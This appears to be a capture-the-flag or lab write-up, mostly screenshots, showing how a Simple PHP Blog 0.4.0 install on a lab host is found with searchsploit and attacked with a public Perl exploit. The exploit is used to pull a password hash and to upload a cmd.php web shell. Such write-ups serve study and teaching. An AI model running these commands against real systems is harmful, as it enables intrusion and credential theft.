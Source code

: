 ![](https://d2mxuefqeaa7sj.cloudfront.net/s_8B9289064799891C057E5E7CA53E09D30BD983359AEBFAF44F0A7452F707E8FB_1551829980281_image.png)

![](https://d2mxuefqeaa7sj.cloudfront.net/s_8B9289064799891C057E5E7CA53E09D30BD983359AEBFAF44F0A7452F707E8FB_1551830162530_image.png)


well we found a `/blog`

Navigate to `/blog`

![](https://d2mxuefqeaa7sj.cloudfront.net/s_8B9289064799891C057E5E7CA53E09D30BD983359AEBFAF44F0A7452F707E8FB_1551830196230_image.png)


source:

![](https://d2mxuefqeaa7sj.cloudfront.net/s_8B9289064799891C057E5E7CA53E09D30BD983359AEBFAF44F0A7452F707E8FB_1551830611871_image.png)


web-application identified as Simple PHP Blog 0.4.0

Searching for vulnerabilites

    searchsploit simple php blog

![](https://d2mxuefqeaa7sj.cloudfront.net/s_8B9289064799891C057E5E7CA53E09D30BD983359AEBFAF44F0A7452F707E8FB_1551830742319_image.png)


both exploits jump off the page. Download locally with `-m` flag

checking out the `1191.pl`

![](https://d2mxuefqeaa7sj.cloudfront.net/s_8B9289064799891C057E5E7CA53E09D30BD983359AEBFAF44F0A7452F707E8FB_1551830955439_image.png)


syntax we should attempt which should return the password file (hash):

    perl 1191.pl -h http://10.10.10.100/blog -e 2

result: 

![](https://d2mxuefqeaa7sj.cloudfront.net/s_8B9289064799891C057E5E7CA53E09D30BD983359AEBFAF44F0A7452F707E8FB_1551831101040_image.png)


it successfully gave us the password hash. Lets see what else this exploit can do.


# RCE 

upload cmd.php  

    perl 1191.pl -h http://10.10.10.100/blog -e 1


![](https://d2mxuefqeaa7sj.cloudfront.net/s_8B9289064799891C057E5E7CA53E09D30BD983359AEBFAF44F0A7452F707E8FB_1551831737038_image.png)

![](https://d2mxuefqeaa7sj.cloudfront.net/s_8B9289064799891C057E5E7CA53E09D30BD983359AEBFAF44F0A7452F707E8FB_1551831769342_image.png)


we have a successful cmd.php installed on web-server.

